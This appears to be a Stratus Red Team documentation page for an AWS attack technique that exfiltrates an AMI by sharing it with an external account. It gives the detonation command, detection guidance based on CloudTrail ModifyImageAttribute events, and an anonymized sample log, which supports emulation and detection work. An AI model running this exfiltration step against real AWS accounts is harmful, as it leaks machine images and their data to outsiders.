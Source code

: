 ```yaml
---
title: Exfiltrate an AMI by Sharing It
---
```


# Exfiltrate an AMI by Sharing It


 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: AWS

## Mappings

- MITRE ATT&CK
    - Exfiltration



## Description


Exfiltrates an AMI by sharing it with an external AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: 

- Create an AMI.

<span style="font-variant: small-caps;">Detonation</span>: 

- Share the AMI with an external, fictitious AWS account.


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.exfiltration.ec2-share-ami
```
## Detection


Through CloudTrail's <code>ModifyImageAttribute</code> event, when <code>requestParameters.launchPermission</code> shows
that the AMI was shared with a new or unknown AWS account, such as:

<pre><code>"requestParameters": {
  "launchPermission": {
    "add": {
	  "items": [{ "userId": "012345678901" }]
    }
  },
  "attributeType": "launchPermission",
  "imageId": "ami-0b87ea1d007078d18"
}</code></pre>

An attacker can also make an AMI completely public. In this case, the <code>item</code> entry 
will look like <code>{"groups":"all"}</code>. 



## Detonation logs <span class="smallcaps w3-badge w3-light-green w3-round w3-text-sand">new!</span>

The following CloudTrail events are generated when this technique is detonated[^1]:


- `ec2:ModifyImageAttribute`


??? "View raw detonation logs"

    ```json hl_lines="6"

    [
	   {
	      "awsRegion": "me-south-1r",
	      "eventCategory": "Management",
	      "eventID": "1f00bcfa-e050-4c2e-b99b-768ebe3a3dd3",
	      "eventName": "ModifyImageAttribute",
	      "eventSource": "ec2.amazonaws.com",
	      "eventTime": "2024-08-01T12:25:57Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.09",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "118238665043",
	      "requestID": "dd81ae39-a261-4e85-87a4-01fe22abc602",
	      "requestParameters": {
	         "attributeType": "launchPermission",
	         "imageId": "ami-de1fbCab6ccB03e6D",
	         "launchPermission": {
	            "add": {
	               "items": [
	                  {
	                     "userId": "846424999548"
	                  }
	               ]
	            }
	         }
	      },
	      "responseElements": {
	         "_return": true,
	         "requestId": "dd81ae39-a261-4e85-87a4-01fe22abc602"
	      },
	      "sourceIPAddress": "253.19.58.252",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "ec2.me-south-1r.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_a532baf6-7731-4c0f-b089-48508276f787",
	      "userIdentity": {
	         "accessKeyId": "AKIA40XZ2OQU8R4QKTAC",
	         "accountId": "118238665043",
	         "arn": "arn:aws:iam::118238665043:user/christophe",
	         "principalId": "AIDAYO61EC4B4W5G6BXN",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   }
	]
    ```

[^1]: These logs have been gathered from a real detonation of this technique in a test environment using [Grimoire](https://github.com/DataDog/grimoire), and anonymized using [LogLicker](https://github.com/Permiso-io-tools/LogLicker).
